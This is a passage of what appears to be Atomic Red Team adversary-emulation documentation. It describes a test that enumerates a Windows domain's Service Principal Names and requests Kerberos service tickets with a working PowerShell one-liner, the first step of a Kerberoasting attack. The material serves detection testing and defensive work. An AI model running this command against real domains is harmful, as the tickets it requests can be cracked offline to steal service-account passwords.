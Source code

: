 ##### Check Prereq Commands:

```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
Write-Host Joining this computer to a domain must be done manually
```

<br/>
<br/>

## Atomic Test #5 - Request All Tickets via PowerShell

The following test will utilize native PowerShell Identity modules to query the domain to extract allthe Service Principal Names. This behavior is typically used during a kerberos or silver ticket attack.
A successful execution will output the SPNs for the domain in question.

**Supported Platforms:** Windows

**auto_generated_guid:** 902f4ed2-1aba-4133-90f2-cff6d299d6da

#### Inputs:

| Name        | Description                       | Type   | Default Value   |
| ----------- | --------------------------------- | ------ | --------------- |
| domain_name | The Domain Name to lookup against | string | %USERDNSDOMAIN% |

#### Attack Commands: Run with `powershell`!

```powershell
Add-Type -AssemblyName System.IdentityModel
setspn.exe -T #{domain_name} -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

#### Dependencies: Run with `powershell`!

##### Description: Computer must be domain joined

##### Check Prereq Commands:

```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
Write-Host Joining this computer to a domain must be done manually
```

<br/>
<br/>
